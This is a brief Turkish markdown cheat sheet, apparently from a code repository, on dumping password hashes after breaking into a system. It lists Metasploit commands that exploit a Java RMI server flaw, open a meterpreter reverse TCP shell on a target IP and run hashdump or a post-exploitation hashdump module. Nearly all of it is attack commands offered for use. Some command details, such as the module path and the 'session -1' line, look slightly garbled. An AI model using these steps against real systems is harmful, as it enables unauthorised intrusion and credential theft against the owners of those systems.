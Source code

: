 # Sistemi Hackledikten Sonra Hash'leri Öğrenme 

#### 1.```nmap``` çalıştırarak açıkları buluyoruz örneğin ```java_rmi_server``` açığı var
``` 
msfconsole
use exploit/multi/handler/misc/java_rmi_server
show payloads
set payload java/meterpreter/reverse_tcp
show options
set rhost <HedefIP>
exploit
sessions -l
session -1
```
#### 2. Sistemi Hackledikten Sonra 
```hashdump``` Hashleri gösterir
#### 3.  Eğer ```hashdump``` çalışmazsa
```run post/linux(ya da windows)/gather/hashdump```

